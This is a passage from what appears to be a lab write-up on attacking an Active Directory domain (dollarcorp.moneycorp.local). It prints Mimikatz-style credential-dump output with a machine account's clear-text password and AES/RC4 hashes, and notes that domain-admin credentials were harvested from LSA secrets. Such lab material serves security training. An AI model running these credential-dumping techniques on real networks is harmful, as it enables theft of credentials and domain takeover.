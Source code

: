 <figure><img src="../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

We got credentials of svcadmin, a domain administrator. Remember that svcadmin is used as a service account (see "Session" in the above output), so you can even get credentials in clear-text from lsasecrets.

```powershell
Authentication Id : 0 ; 6198905 (00000000:005e9679)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/11/2025 4:24:00 AM
SID               : S-1-5-96-0-2

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(?yWE8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41*/$^4+EeZ07?zF2Z3:[Jd*F/z_Pp6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 6155000 (00000000:005deaf8)
Session           : Interactive from 0
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:16:32 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
```